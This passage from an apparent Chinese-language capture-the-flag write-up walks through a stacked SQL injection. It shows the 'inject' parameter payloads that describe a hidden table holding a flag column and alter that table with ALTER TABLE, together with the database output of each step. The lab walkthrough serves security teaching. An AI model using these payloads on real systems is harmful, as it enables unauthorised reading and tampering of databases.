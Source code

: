 查看另一个表结构。
	?inject=-1';desc `1919810931114514`;--+


只有一个字段。

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

```

先将含有flag表的结构改为和words表结构相同。

	?inject=-1';alter table`1919810931114514` add (id int(11) primary key auto_increment);--+

ok了：

```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(11)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(3) "PRI"
  [4]=>
  NULL
  [5]=>
  string(14) "auto_increment"
}
```

